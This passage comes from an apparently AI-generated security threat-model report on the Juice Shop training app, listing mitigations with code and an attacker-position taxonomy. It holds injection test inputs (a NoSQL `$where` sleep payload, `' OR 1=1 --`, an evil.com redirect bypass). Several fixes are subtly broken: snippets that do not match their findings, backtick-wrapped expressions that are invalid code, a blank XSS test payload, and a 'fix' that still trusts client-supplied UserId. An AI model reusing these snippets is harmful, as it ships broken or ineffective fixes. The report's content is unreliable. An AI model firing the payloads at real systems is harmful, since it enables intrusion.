2. Update `models/user.ts:76-78` to async: make the `set()` hook call a migration-time hash upgrade or use a model-level `beforeCreate`/`beforeUpdate` hook.
3. Update `routes/login.ts:34` to use `UserModel.findOne({ where: { email: req.body.email } })` followed by `bcrypt.compare(req.body.password, user.password)` rather than comparing hashes in SQL.
4. Run a one-time migration to re-hash all stored MD5 passwords at next login (lazy migration pattern).
5. Add the `bcrypt` npm package (`npm install bcrypt @types/bcrypt`).
6. Replace `security.hash(password)` with `await bcrypt.hash(password, 12)` at registration and reset.
7. Replace the login comparison with `await bcrypt.compare(plaintextPassword, storedHash)`.
8. Run a one-time migration to re-hash existing users on next login (hash-on-login-upgrade pattern).
9. Invalidate all existing sessions after migration to force re-authentication.

```javascript
import bcrypt from 'bcrypt'
const BCRYPT_ROUNDS = 12

// In `models/user.ts` beforeCreate hook:
async (user) => {
  if (user.changed('password')) {
    user.password = await bcrypt.hash(user.password, BCRYPT_ROUNDS)
  }
}

// In login handler:
const user = await UserModel.findOne({ where: { email: `req.body.email` } })
const valid = user && await bcrypt.compare(`req.body.password`, user.password)
```

**Reference:** CWE-916

---

<a id="m-025"></a>
#### M-025 — Enforce URL scheme and host allowlist before fetching profile image URLs

**Addresses:**

- 🟠 [F-022](#f-022) — Server Side Request Forgery via Profile Image URL

**Priority:** P2 — This Sprint · **Effort:** Low · **File:** `routes/profileImageUrlUpload.ts:24`

**How:** Parse the supplied URL with `new URL(url)` and validate that `url.protocol` is `https:` or `http:` and that the hostname resolves to a public IP (reject RFC 1918, loopback, and link-local addresses). Use a library such as `ssrf-req-filter` or implement a pre-resolution DNS check to block internal host ranges. Alternatively, process image uploads server-side via an isolated fetch proxy or CDN origin, never from the application server itself.

1. Parse the supplied URL with `new URL(url)` and validate that `url.protocol` is `https:` or `http:` and that the hostname resolves to a public IP (reject RFC 1918, loopback, and link-local addresses).
2. Use a library such as `ssrf-req-filter` or implement a pre-resolution DNS check to block internal host ranges.
3. Alternatively, process image uploads server-side via an isolated fetch proxy or CDN origin, never from the application server itself.

```typescript
const parsed = new URL(url);
if (!['http:', 'https:'].includes(parsed.protocol)) throw new Error('Invalid scheme');
const ip = await dns.promises.lookup(parsed.hostname);
if (isPrivateIP(ip.address)) throw new Error('Private host not allowed');
```

**Reference:** CWE-918

---

<a id="m-026"></a>
#### M-026 — Add express-rate-limit middleware to the /b2b/v2 route group in server.ts

**Addresses:**

- 🟠 [F-023](#f-023) — CPU Exhaustion via Unbounded safeEval Requests (routes/b2bOrder.ts:23)

**Priority:** P2 — This Sprint · **Effort:** Low · **File:** `routes/b2bOrder.ts:23`

**How:** Apply `rateLimit({ windowMs: 60 * 1000, max: 10 })` to `app.use('/b2b/v2', ...)` in `server.ts` before the `security.isAuthorized()` middleware, limiting each IP to 10 B2B order requests per minute. Consider moving the `vm.runInContext` call to a worker thread (`node:worker_threads`) so that compute-heavy evaluation does not block the event loop shared with other requests.

1. Apply `rateLimit({ windowMs: 60 * 1000, max: 10 })` to `app.use('/b2b/v2', ...)` in `server.ts` before the `security.isAuthorized()` middleware, limiting each IP to 10 B2B order requests per minute.
2. Consider moving the `vm.runInContext` call to a worker thread (`node:worker_threads`) so that compute-heavy evaluation does not block the event loop shared with other requests.

```typescript
// `server.ts` - add before `security.isAuthorized()`
app.use('/b2b/v2', rateLimit({ windowMs: 60_000, max: 10, standardHeaders: true, legacyHeaders: false }))
app.use('/b2b/v2', `security.isAuthorized()`)
```

**Reference:** CWE-400

---

<a id="m-027"></a>
#### M-027 — Remove global.sleep definition and replace $where query with field equality

**Addresses:**

- 🔴 [F-024](#f-024) — Event Loop Blocking via NoSQL \$where Injection (routes/showProductReviews.ts:23)

**Priority:** P2 — This Sprint · **Effort:** Low · **File:** `routes/showProductReviews.ts:23`

**How:** Remove the `global.sleep` definition entirely from `routes/showProductReviews.ts`. Replace `db.reviewsCollection.find({ $where: 'this.product == ' + id })` with `db.reviewsCollection.find({ product: Number(id) })` as described in data-layer-003. Add rate limiting to the reviews endpoint using `express-rate-limit`: `const reviewsLimiter = rateLimit({ windowMs: 60_000, max: 60 })`.

1. Remove the `global.sleep` definition entirely from `routes/showProductReviews.ts`.
2. Replace `db.reviewsCollection.find({ $where: 'this.product == ' + id })` with `db.reviewsCollection.find({ product: Number(id) })` as described in data-layer-003.
3. Add rate limiting to the reviews endpoint using `express-rate-limit`: `const reviewsLimiter = rateLimit({ windowMs: 60_000, max: 60 })`.

```javascript
// Reject `$where` and operator keys from user-controlled input.
function safeQuery(filter) {
  for (const k of Object.keys(filter)) {
    if (k.startsWith('\$')) throw new Error('operator not allowed')
  }
  return collection.find(filter)
}
```

**Verification:** Send `{ "$where": "sleep(5000) || true" }` and confirm the request is rejected (HTTP 400) within 100 ms instead of taking ~5 s.

**Reference:** CWE-943

---

<a id="m-028"></a>
#### M-028 — Fix X-Forwarded-For-based rate limit key and add rate limiting to login endpoint

**Addresses:**

- 🟠 [F-025](#f-025) — Rate Limit Bypass via X Forwarded For Spoofing

**Priority:** P2 — This Sprint · **Effort:** Low · **File:** `server.ts:346`

**How:** Change `app.enable('trust proxy')` to `app.set('trust proxy', 1)` (or the actual number of trusted proxy hops) so Express only trusts the rightmost IP from that many proxies. Remove the custom `keyGenerator` from the rate limit config — the default `req.ip` will correctly reflect the real client IP after the proxy trust is corrected. Add an equivalent `rateLimit({ windowMs: 5 * 60 * 1000, max: 10 })` middleware to `POST /rest/user/login`. Consider adding account lockout logic (5 failed attempts → 15-minute lockout) in addition to rate limiting.

1. Change `app.enable('trust proxy')` to `app.set('trust proxy', 1)` (or the actual number of trusted proxy hops) so Express only trusts the rightmost IP from that many proxies.
2. Remove the custom `keyGenerator` from the rate limit config — the default `req.ip` will correctly reflect the real client IP after the proxy trust is corrected.
3. Add an equivalent `rateLimit({ windowMs: 5 * 60 * 1000, max: 10 })` middleware to `POST /rest/user/login`.
4. Consider adding account lockout logic (5 failed attempts → 15-minute lockout) in addition to rate limiting.

```typescript
app.set('trust proxy', 1); // trust first proxy hop only
const authRateLimit = rateLimit({ windowMs: 5 * 60 * 1000, max: 10 });
app.post('/rest/user/login', authRateLimit, `login()`);
app.use('/rest/user/reset-password', rateLimit({ windowMs: 5 * 60 * 1000, max: 10 }));
```

**Reference:** CWE-307

---

<a id="m-029"></a>
#### M-029 — Add rate limiting on the YAML/XML upload endpoint and cap YAML anchor expansion

**Addresses:**

- 🟠 [F-026](#f-026) — YAML Bomb Resource Exhaustion (routes/fileUpload.ts:117)

**Priority:** P2 — This Sprint · **Effort:** Medium · **File:** `server.ts:309`

**How:** Apply `rateLimit({ windowMs: 60 * 1000, max: 10 })` from `express-rate-limit` to `POST /file-upload` at `server.ts:309`, consistent with the pattern already applied to other endpoints at lines 343 and 458. Replace `yaml.load(data)` with `yaml.load(data, { schema: yaml.FAILSAFE_SCHEMA })` or `yaml.load(data, { schema: yaml.JSON_SCHEMA })` — these schemas do not support YAML merge keys or complex type constructors, limiting anchor expansion risk. Enforce the authentication requirement (see file-upload-service-004) to restrict the attack surface to authenticated users only.

1. Apply `rateLimit({ windowMs: 60 * 1000, max: 10 })` from `express-rate-limit` to `POST /file-upload` at `server.ts:309`, consistent with the pattern already applied to other endpoints at lines 343 and 458.
2. Replace `yaml.load(data)` with `yaml.load(data, { schema: yaml.FAILSAFE_SCHEMA })` or `yaml.load(data, { schema: yaml.JSON_SCHEMA })` — these schemas do not support YAML merge keys or complex type constructors, limiting anchor expansion risk.
3. Enforce the authentication requirement (see file-upload-service-004) to restrict the attack surface to authenticated users only.

```typescript
// `routes/fileUpload.ts:117` - use FAILSAFE_SCHEMA to limit YAML complexity
const yamlString = vm.runInContext(
  'JSON.stringify(yaml.load(data, { schema: yaml.FAILSAFE_SCHEMA }))',
  sandbox,
  { timeout: 2000 }
)
```

**Reference:** CWE-400

---

<a id="m-030"></a>
#### M-030 — Back admin route guard with a server-side authorization check or signature-verified token claim

**Addresses:**

- 🟠 [F-027](#f-027) — Client Side Only Admin Route Guard (frontend/src/app/app.guard.ts:54)

**Priority:** P2 — This Sprint · **Effort:** Medium · **File:** `frontend/src/app/app.guard.ts:54`

**How:** Replace the client-side `jwtDecode` role check with a server-side probe: on admin route activation, call a `/api/whoami` or `/api/admin/check` endpoint that returns 403 if the token is not a valid signed admin token. If client-side decoding is retained for UX purposes, ensure it is never the sole authorization gate — always pair with a server-side enforcement point. Store user role in an HttpOnly cookie managed by the BFF (see angular-spa-006) instead of in a client-readable JWT payload.

1. Replace the client-side `jwtDecode` role check with a server-side probe: on admin route activation, call a `/api/whoami` or `/api/admin/check` endpoint that returns 403 if the token is not a valid signed admin token.
2. If client-side decoding is retained for UX purposes, ensure it is never the sole authorization gate — always pair with a server-side enforcement point.
3. Store user role in an HttpOnly cookie managed by the BFF (see angular-spa-006) instead of in a client-readable JWT payload.

**Reference:** CWE-602

---

<a id="m-031"></a>
#### M-031 — Add author ownership check to review update query

**Addresses:**

- 🔴 [F-028](#f-028) — Missing Ownership Check on Review Update (routes/updateProductReviews.ts:18)

**Priority:** P2 — This Sprint · **Effort:** Low · **File:** `routes/updateProductReviews.ts:18`

**How:** Add the authenticated user's email to the query filter: `db.reviewsCollection.update({ _id: req.body.id, author: user?.data.email }, { $set: { message: req.body.message } })`. Remove `{ multi: true }` — a single review update should never affect multiple documents. Return HTTP 403 when `result.modified === 0` after the ownership-gated query.

1. Add the authenticated user's email to the query filter: `db.reviewsCollection.update({ _id: req.body.id, author: user?.data.email }, { $set: { message: req.body.message } })`.
2. Remove `{ multi: true }` — a single review update should never affect multiple documents.
3. Return HTTP 403 when `result.modified === 0` after the ownership-gated query.

```javascript
const user = security.authenticatedUsers.from(req)
if (!user?.data?.email) return next(new Error('Not authenticated'))
db.reviewsCollection.update(
  { _id: `req.body.id`, author: user.data.email },  // ownership check
  `{ $set: { message: req.body.message } }`
  // no { multi: true }
).then(...)
```

**Reference:** CWE-639

---

<a id="m-032"></a>
#### M-032 — Add review ownership check and disable multi-document update in product review handler

**Addresses:**

- 🟠 [F-029](#f-029) — NoSQL Mass Update Allows Any User to Overwrite All Reviews

**Priority:** P2 — This Sprint · **Effort:** Low · **File:** `routes/updateProductReviews.ts:18`

**How:** Remove `{ multi: true }` from the update options to prevent mass-update. Add an ownership filter to the query: `{ _id: req.body.id, author: user.data.email }` — only allow update when the author matches the authenticated user. Validate `req.body.id` as a string matching the expected ObjectId format before passing it to the query. Return 403 when the update modifies 0 documents (indicating the user does not own the review).

1. Remove `{ multi: true }` from the update options to prevent mass-update.
2. Add an ownership filter to the query: `{ _id: req.body.id, author: user.data.email }` — only allow update when the author matches the authenticated user.
3. Validate `req.body.id` as a string matching the expected ObjectId format before passing it to the query.
4. Return 403 when the update modifies 0 documents (indicating the user does not own the review).

```typescript
const user = security.authenticatedUsers.from(req);
db.reviewsCollection.update(
  { _id: `req.body.id`, author: user?.data?.email },
  `{ $set: { message: req.body.message } }`
  // multi: true removed
);
```

**Reference:** CWE-285

---

<a id="m-033"></a>
#### M-033 — Normalize ZIP entry paths and enforce a strict allowlist prefix before writing

**Addresses:**

- 🟠 [F-030](#f-030) — Path Traversal via Archive Extraction (routes/fileUpload.ts:42)

**Priority:** P2 — This Sprint · **Effort:** Low · **File:** `routes/fileUpload.ts:42`

**How:** Replace the `includes` containment check with a prefix check: `absolutePath.startsWith(path.resolve('uploads/complaints') + path.sep)`. This ensures only paths strictly under `uploads/complaints/` are written. Strip all `..` segments from `fileName` before path resolution: `const safeFileName = path.basename(fileName)` for flat extraction, or use a path normalization utility that eliminates traversal sequences before joining. Use `absolutePath` (the resolved path) in the `createWriteStream` call at line 45 instead of the raw `fileName`, so the path used for writing is identical to the path used for the security check. Consider using the `unzipper` library's built-in path sanitization or switching to a library that rejects Zip Slip paths by default.

1. Replace the `includes` containment check with a prefix check: `absolutePath.startsWith(path.resolve('uploads/complaints') + path.sep)`. This ensures only paths strictly under `uploads/complaints/` are written.
2. Strip all `..` segments from `fileName` before path resolution: `const safeFileName = path.basename(fileName)` for flat extraction, or use a path normalization utility that eliminates traversal sequences before joining.
3. Use `absolutePath` (the resolved path) in the `createWriteStream` call at line 45 instead of the raw `fileName`, so the path used for writing is identical to the path used for the security check.
4. Consider using the `unzipper` library's built-in path sanitization or switching to a library that rejects Zip Slip paths by default.

```typescript
// `routes/fileUpload.ts:42`-45 - fix: prefix check + sanitized path
const safeBase = path.resolve('uploads/complaints')
const absolutePath = path.resolve(safeBase, path.basename(fileName))
if (absolutePath.startsWith(safeBase + path.sep)) {
  entry.pipe(fs.createWriteStream(absolutePath).on('error', (err) => next(err)))
} else {
  `entry.autodrain()`
}
```

**Reference:** CWE-22

---

### P3 — Next Quarter

<a id="m-003"></a>
#### M-003 — Remove `--unsafe-perm` from `npm install`

**Addresses:**

- 🟡 [F-034](#f-034) — Docker build uses unsafe perm flag

**Priority:** P3 — Next Quarter · **Effort:** Low · **File:** `Dockerfile:5`

**How:** Drop the `--unsafe-perm` flag and let postinstall scripts run as the unprivileged user added by the `USER` directive. If a package legitimately needs root, add a dedicated build stage rather than running every install as root.

---

<a id="m-012"></a>
#### M-012 — Migrate Google OAuth flow to Authorization Code with PKCE and add state validation

**Addresses:**

- 🟠 [F-008](#f-008) — OAuth Implicit Flow Without PKC… (frontend/src/app/login/login.component.ts:134)

**Priority:** P3 — Next Quarter · **Effort:** High · **File:** `frontend/src/app/login/login.component.ts:134`

**How:** Replace `response_type=token` with `response_type=code` and add `code_challenge` (S256 method) and `code_challenge_method=S256` parameters to the authorization URL. Generate a cryptographically random `state` parameter per flow, store it in `sessionStorage`, and verify it in `oauth.component.ts` before consuming the authorization code. Exchange the authorization code for tokens on the backend (Backend-for-Frontend pattern) so the access_token never appears in the browser URL or JavaScript. Use Angular's `crypto.getRandomValues()` for generating the PKCE code verifier and state.

1. Replace `response_type=token` with `response_type=code` and add `code_challenge` (S256 method) and `code_challenge_method=S256` parameters to the authorization URL.
2. Generate a cryptographically random `state` parameter per flow, store it in `sessionStorage`, and verify it in `oauth.component.ts` before consuming the authorization code.
3. Exchange the authorization code for tokens on the backend (Backend-for-Frontend pattern) so the access_token never appears in the browser URL or JavaScript.
4. Use Angular's `crypto.getRandomValues()` for generating the PKCE code verifier and state.

```javascript
// Generate PKCE code verifier and state
const verifier = generateRandomString(64)
const state = generateRandomString(32)
sessionStorage.setItem('pkce_verifier', verifier)
sessionStorage.setItem('oauth_state', state)
const challenge = await sha256Base64url(verifier)
window.location.replace(
  `${oauthProviderUrl}?client_id=${clientId}&response_type=code` +
  `&code_challenge=${challenge}&code_challenge_method=S256` +
  `&state=${state}&scope=email&redirect_uri=${redirectUri}`
)
```

**Reference:** CWE-598

---

<a id="m-023"></a>
#### M-023 — Migrate JWT storage from localStorage to HttpOnly Secure SameSite=Strict cookies via a Backend-for-Frontend

**Addresses:**

- 🟠 [F-019](#f-019) — Insecure Token Storage (frontend/src/app/Services/request.interceptor.ts)

**Priority:** P3 — Next Quarter · **Effort:** High · **File:** `login.component.ts:103`

**How:** Introduce a Backend-for-Frontend endpoint that performs the token exchange and sets the JWT in a `Set-Cookie: token=...; HttpOnly; Secure; SameSite=Strict` response header. Remove all `localStorage.setItem('token', ...)` calls from the Angular components. Update `request.interceptor.ts` to remove the `Authorization` header injection — the browser will automatically send the HttpOnly cookie. Verify the cookie expiry matches the token expiry (currently 8 hours per `login.component.ts:103`).

1. Introduce a Backend-for-Frontend endpoint that performs the token exchange and sets the JWT in a `Set-Cookie: token=...; HttpOnly; Secure; SameSite=Strict` response header.
2. Remove all `localStorage.setItem('token', ...)` calls from the Angular components.
3. Update `request.interceptor.ts` to remove the `Authorization` header injection — the browser will automatically send the HttpOnly cookie.
4. Verify the cookie expiry matches the token expiry (currently 8 hours per `login.component.ts:103`).

```typescript
// Move the JWT out of localStorage into an httpOnly cookie.
res.cookie('session', token, {
  httpOnly: true, secure: true, sameSite: 'lax', maxAge: 3600_000
})
```

**Verification:** Open browser DevTools, run `localStorage.getItem('token')` and confirm `null`.

**Reference:** CWE-922

---

<a id="m-034"></a>
#### M-034 — Emit a structured audit log entry on every B2B order submission in routes/b2bOrder.ts

**Addresses:**

- 🟡 [F-031](#f-031) — Missing Audit Log for B2B Order Submission (routes/b2bOrder.ts)

**Priority:** P3 — Next Quarter · **Effort:** Low · **File:** `routes/b2bOrder.ts:16`

**How:** After the `vm.runInContext` call (success or failure), emit a structured log entry containing: authenticated user identity from the JWT (`req.auth` after `expressJwt` sets it), `body.cid`, a hash of `body.orderLinesData`, the generated `orderNo`, outcome (`success` / `timeout` / `error`), and `req.ip`. Route the log to an append-only sink (e.g., the existing `morgan` or `winston` logger if present, or a dedicated audit table) so that the record cannot be deleted by an attacker who also gains application-level access.

1. After the `vm.runInContext` call (success or failure), emit a structured log entry containing: authenticated user identity from the JWT (`req.auth` after `expressJwt` sets it), `body.cid`, a hash of `body.orderLinesData`, the generated `orderNo`, outcome (`success` / `timeout` / `error`), and `req.ip`.
2. Route the log to an append-only sink (e.g., the existing `morgan` or `winston` logger if present, or a dedicated audit table) so that the record cannot be deleted by an attacker who also gains application-level access.

```typescript
// after `vm.runInContext` succeeds
console.log(JSON.stringify({
  event: 'b2b_order_submitted',
  userId: (req as any).auth?.id,
  cid: body.cid,
  orderNo,
  orderLinesHash: security.hash(orderLinesData),
  ip: `req.ip`,
  ts: new Date().toISOString()
}))
```

**Reference:** CWE-778

---

<a id="m-035"></a>
#### M-035 — Add structured audit log entries for all upload events including actor, filename, and result

**Addresses:**

- 🟡 [F-032](#f-032) — No Audit Logging on File Upload Operations (routes/fileUpload.ts)

**Priority:** P3 — Next Quarter · **Effort:** Low · **File:** `routes/fileUpload.ts:27`

**How:** In each upload handler, emit a `logger.info` entry with: the authenticated user ID (from token if available), source IP (`req.socket.remoteAddress`), upload type (zip/xml/yaml/image), original filename, file size, and outcome (accepted/rejected/error). In `routes/profileImageUrlUpload.ts`, include the requested URL value in the `logger.warn` call at line 37 so that SSRF probe attempts are captured: `logger.warn(`SSRF-candidate URL rejected: ${url} — ${`utils.getErrorMessage(error)`}`)`. Route log output to an append-only log sink (separate from application stdout) to prevent post-incident tampering with upload records.

1. In each upload handler, emit a `logger.info` entry with: the authenticated user ID (from token if available), source IP (`req.socket.remoteAddress`), upload type (zip/xml/yaml/image), original filename, file size, and outcome (accepted/rejected/error).
2. In `routes/profileImageUrlUpload.ts`, include the requested URL value in the `logger.warn` call at line 37 so that SSRF probe attempts are captured: `logger.warn(`SSRF-candidate URL rejected: ${url} — ${`utils.getErrorMessage(error)`}`)`.
3. Route log output to an append-only log sink (separate from application stdout) to prevent post-incident tampering with upload records.

```typescript
// `routes/fileUpload.ts` - add at start of handleZipFileUpload
logger.info(`file-upload zip: user=${req.body?.user ?? 'anonymous'} file=${file?.originalname} size=${file?.size} ip=${req.socket.remoteAddress}`)
```

**Reference:** CWE-778

---

<a id="m-036"></a>
#### M-036 — Remove bypassSecurityTrustHtml from lastLoginIp display and use plain text binding

**Addresses:**

- 🔴 [F-033](#f-033) — Stored XSS via L… (frontend/src/app/last login ip/last login ip.component.ts:39)

**Priority:** P3 — Next Quarter · **Effort:** Low · **File:** `last-login-ip.component.ts:39`

**How:** Change `last-login-ip.component.ts:39` to assign `this.lastLoginIp = payload.data.lastLoginIp` as a plain string. Update the component template to use `{{ lastLoginIp }}` text interpolation instead of `[innerHTML]`. On the backend, validate that `lastLoginIp` values stored in JWT claims are valid IPv4/IPv6 strings before signing.

1. Change `last-login-ip.component.ts:39` to assign `this.lastLoginIp = payload.data.lastLoginIp` as a plain string.
2. Update the component template to use `{{ lastLoginIp }}` text interpolation instead of `[innerHTML]`.
3. On the backend, validate that `lastLoginIp` values stored in JWT claims are valid IPv4/IPv6 strings before signing.

```typescript
// Never call bypassSecurityTrust*; let Angular sanitize.
// template:  <div [innerHTML]="product.description"></div>
// component: no DomSanitizer.bypassSecurityTrustHtml(...)
this.product.description = raw  // bound directly; Angular escapes
```

**Verification:** Insert `` via the affected field and confirm the browser renders the escaped text, not an alert dialog.

**Reference:** CWE-79

---

<a id="m-037"></a>
#### M-037 — Remove sqlite_master challenge-detection query from the production search path

**Addresses:**

- 🟠 [F-035](#f-035) — Database Schema Exposure via sqlite_master Query (routes/search.ts:47)

**Priority:** P3 — Next Quarter · **Effort:** Low · **File:** `routes/search.ts:47`

**How:** Move the `dbSchemaChallenge` detection logic out of the hot search path. Cache the schema DDL at startup (once) rather than querying `sqlite_master` on every request. Gate the entire challenge-detection block behind `if (utils.isChallengeEnabled(challenges.dbSchemaChallenge))` to ensure it does not execute when challenges are disabled. Do not include `sqlite_master` query results in any response or comparison visible to the client.

1. Move the `dbSchemaChallenge` detection logic out of the hot search path. Cache the schema DDL at startup (once) rather than querying `sqlite_master` on every request.
2. Gate the entire challenge-detection block behind `if (utils.isChallengeEnabled(challenges.dbSchemaChallenge))` to ensure it does not execute when challenges are disabled.
3. Do not include `sqlite_master` query results in any response or comparison visible to the client.

```typescript
// Reject string interpolation; use parameter binding.
await sequelize.query(
  'SELECT * FROM Users WHERE email = :email AND password = :password',
  { replacements: { email, password: hash(password) }, type: QueryTypes.SELECT }
)
```

**Verification:** Submit `' OR 1=1 --` in the affected field and confirm the request returns 401 (or zero rows) instead of an authenticated session.

**Reference:** CWE-89

---

<a id="m-038"></a>
#### M-038 — Replace URL.includes() allowlist check with strict URL.startsWith() for redirect validation

**Addresses:**

- 🟡 [F-036](#f-036) — Open Redirect Allowlist Bypass via URL Substring Match

**Priority:** P3 — Next Quarter · **Effort:** Low · **File:** `lib/insecurity.ts:138`

**How:** Change `url.includes(allowedUrl)` to `url === allowedUrl` for an exact match, or `url.startsWith(allowedUrl + '?')` if query parameters on known URLs must be allowed. Alternatively, parse both URLs with `new URL()` and compare only the origin and pathname components. Add a test asserting that `to=https://evil.com/?x=https://github.com/juice-shop/juice-shop` returns 406.

1. Change `url.includes(allowedUrl)` to `url === allowedUrl` for an exact match, or `url.startsWith(allowedUrl + '?')` if query parameters on known URLs must be allowed.
2. Alternatively, parse both URLs with `new URL()` and compare only the origin and pathname components.
3. Add a test asserting that `to=https://evil.com/?x=https://github.com/juice-shop/juice-shop` returns 406.

```typescript
export const isRedirectAllowed = (url: string) => {
  for (const allowedUrl of redirectAllowlist) {
    if (url === allowedUrl) return true;
  }
  return false;
};
```

**Reference:** CWE-601

---

### P4 — Backlog

<a id="m-004"></a>
#### M-004 — Add a top-level GITHUB_TOKEN permissions block

**Addresses:**

- 🟢 [F-037](#f-037) — GitHub Actions workflow grants pull requests:write permission

**Priority:** P4 — Backlog · **Effort:** Low · **File:** `.github/workflows/lock.yml:9`

**How:** Add `permissions: {}` (or `permissions: read-all`) at the workflow root, then grant only the specific scopes individual jobs require. Defaults grant broad write access — explicit minimisation closes the lateral-movement window if a step is compromised.

---

<a id="m-039"></a>
#### M-039 — Assert server-derived UserId in addMemory rather than trusting req.body

**Addresses:**

- 🟢 [F-038](#f-038) — User Controlled UserId in Memory Creation (routes/memory.ts:15)

**Priority:** P4 — Backlog · **Effort:** Low · **File:** `routes/memory.ts:15`

**How:** In `routes/memory.ts:15`, read the user ID from `req.user` (set by `security.isAuthorized()` via express-jwt) or from `req.body.UserId` only after confirming it matches `req.user.id`. Never accept a `UserId` that comes solely from the request body for ownership-sensitive database writes. Add `security.isAuthorized()` before `security.appendUserId()` in the `POST /rest/memories` chain at `server.ts:312` to ensure a formally validated JWT is required before the user ID is extracted.

1. In `routes/memory.ts:15`, read the user ID from `req.user` (set by `security.isAuthorized()` via express-jwt) or from `req.body.UserId` only after confirming it matches `req.user.id`. Never accept a `UserId` that comes solely from the request body for ownership-sensitive database writes.
2. Add `security.isAuthorized()` before `security.appendUserId()` in the `POST /rest/memories` chain at `server.ts:312` to ensure a formally validated JWT is required before the user ID is extracted.

```typescript
// `routes/memory.ts` - fix: ignore body UserId, use appendUserId result only
export function addMemory () {
  return async (req: Request, res: Response, next: NextFunction) => {
    const record = {
      caption: `req.body.caption`,
      imagePath: 'assets/public/images/uploads/' + `req.file`?.filename,
      UserId: `req.body.UserId`  // safe only when `appendUserId()` ran successfully
    }
    // Add: assert `req.body.UserId` was set by middleware, not by client
    if (!`req.body.UserId`) { return res.status(401).json({ error: 'Unauthorized' }) }
    const memory = await MemoryModel.create(record)
    res.status(200).json({ status: 'success', data: memory })
  }
}
```

**Reference:** CWE-639

---

## 11. Out of Scope

The following items are **explicitly excluded** from this threat model. Findings against these areas should be tracked separately.

- Third-party hosted dependencies and SaaS endpoints
- Browser runtime vulnerabilities and end-user device security
- Operating system kernel and container runtime
- Underlying network infrastructure (DNS, BGP, ISP)
- Physical security of hosting facilities

---

## Appendix: Run Statistics

| Field | Value |
|----------------------|----------------------|
| Invocation | `(not recorded)` |
| Generated | 2026-06-06 10:54 UTC |
| Mode | full |
| Assessment depth | standard |
| Plugin version | 0.4.0-beta (analysis v2) |
| Orchestrator model | sonnet |
| Repository | /home/mrohr/juice-shop |
| Output directory | /home/mrohr/juice-shop/docs/security |
| Total analysis duration | 38m 10s |

### Per-Stage Breakdown

| Stage | Description | Agent | Model | Duration | Tool calls | Tokens |
|--------|------------------------|----------------------|-----------------|--------|----------|--------|
| 1 | Threat Analysis & Triage | appsec-threat-analyst | claude-sonnet-4-6 | 36m 32s | 381 | 519,910 |
| 1 | Abuse Case Verification | appsec-abuse-case-verifier | sonnet | 1m 38s | 139 | 167,713 |
| **Total** | - | - | - | **38m 10s** | **520** | **687,623** |

### Per-Phase Duration Breakdown

| Phase | Description | Agent (Model) | Duration |
|---------|------------------------------------|----------------------|--------|
| Phase 9 | STRIDE Merge - 41 threats (Critical: 7,<br/>High: 23, Medium: 6, Low: 2) | Nx stride-analyzer (sonnet-4-6) | 1m 33s |
| Phase 10 | Scan Synthesis - SCA: 2 practice findings, 5<br/>known-bad-libs | threat-analyst (sonnet-4-6) | 28s |
| Phase 10b | Triage Validation - 26 flags (26 warnings, 0<br/>info) sidecars=validated | appsec-triage-validator (sonnet-4-6) | 2m 17s |
| Phase 11 | Finalization Substeps 1-3 complete -<br/>yaml+cache written [8 min 19 s] | threat-analyst (sonnet-4-6) | 3m 24s |
| Phase 11 | Management summary (ms role) - done | threat-analyst (sonnet-4-6) | 2m 01s |
| Phase 11 | [§7](#7-security-architecture) enrichment (secarch) | threat-analyst (sonnet-4-6) | 6m 21s |

---

<a id="appendix-a-vektor-taxonomy"></a>
## Appendix A — Vektor Taxonomy

This appendix defines the attacker-starting-position labels used in the Top Threats table and throughout [§8 Findings Register](#8-findings-register). Each label answers the question *what does the attacker need before the exploit begins?*

<a id="vektor-internet-anon"></a>
### Internet Anon

**Attacker position:** Unauthenticated attacker from the public internet · **Breach distance:** 1

**Preconditions:**

- Endpoint is reachable from the internet (no IP allowlist, no VPN)
- No authentication middleware blocks the request

**Typical CWEs:** [CWE-89](https://cwe.mitre.org/data/definitions/89.html) · [CWE-79](https://cwe.mitre.org/data/definitions/79.html) · [CWE-306](https://cwe.mitre.org/data/definitions/306.html) · [CWE-327](https://cwe.mitre.org/data/definitions/327.html) · [CWE-611](https://cwe.mitre.org/data/definitions/611.html) · [CWE-918](https://cwe.mitre.org/data/definitions/918.html)

**Typical OWASP Top 10:** A01:2021, A03:2021, A07:2021

<a id="vektor-internet-user"></a>
### Internet User

**Attacker position:** Any authenticated low-privilege user (valid JWT / session) · **Breach distance:** 2

**Preconditions:**

- Attacker has signed up or otherwise obtained a valid user session
- Endpoint is behind auth but not behind role/admin checks

**Typical CWEs:** [CWE-434](https://cwe.mitre.org/data/definitions/434.html) · [CWE-611](https://cwe.mitre.org/data/definitions/611.html) · [CWE-918](https://cwe.mitre.org/data/definitions/918.html) · [CWE-352](https://cwe.mitre.org/data/definitions/352.html) · [CWE-287](https://cwe.mitre.org/data/definitions/287.html)

**Typical OWASP Top 10:** A01:2021, A04:2021, A05:2021, A10:2021

<a id="vektor-internet-priv-user"></a>
### Internet Priv User

**Attacker position:** Authenticated admin-level user (JWT with admin role or equivalent) · **Breach distance:** 2

**Preconditions:**

- Attacker holds admin credentials or has elevated privileges
- Endpoint gated on admin role but still exploitable once reached

**Typical CWEs:** [CWE-862](https://cwe.mitre.org/data/definitions/862.html) · [CWE-79](https://cwe.mitre.org/data/definitions/79.html) · [CWE-94](https://cwe.mitre.org/data/definitions/94.html)

**Typical OWASP Top 10:** A01:2021

<a id="vektor-victim-required"></a>
### Victim-Required

**Attacker position:** Attacker needs victim interaction - social engineering, crafted link, or live session · **Breach distance:** 2

**Preconditions:**

- Victim must click a link, load a page, or have an active session
- Applies to XSS, CSRF, click-jacking, open redirect

**Typical CWEs:** [CWE-79](https://cwe.mitre.org/data/definitions/79.html) · [CWE-352](https://cwe.mitre.org/data/definitions/352.html) · [CWE-601](https://cwe.mitre.org/data/definitions/601.html) · [CWE-1021](https://cwe.mitre.org/data/definitions/1021.html)

**Typical OWASP Top 10:** A01:2021, A03:2021

<a id="vektor-build-time"></a>
### Build-Time

**Attacker position:** Attacker controls a build input - CI runner, dependency, base image, or external data fetched during build · **Breach distance:** 3

**Preconditions:**

- Compromise of a dependency, registry, or base image
- OR compromise of a CI runner with write access to artifacts

**Typical CWEs:** [CWE-506](https://cwe.mitre.org/data/definitions/506.html) · [CWE-829](https://cwe.mitre.org/data/definitions/829.html) · [CWE-1039](https://cwe.mitre.org/data/definitions/1039.html) · [CWE-1104](https://cwe.mitre.org/data/definitions/1104.html)

**Typical OWASP Top 10:** A08:2021

<a id="vektor-repo-read"></a>
### Repo-Read

**Attacker position:** Attacker gains read access to source repository (leaked clone, forked fork, insider, compromised developer workstation) · **Breach distance:** 3

**Preconditions:**

- Read access to the source tree at or after commit time
- No runtime exploit needed - the vulnerability is the content of the repo

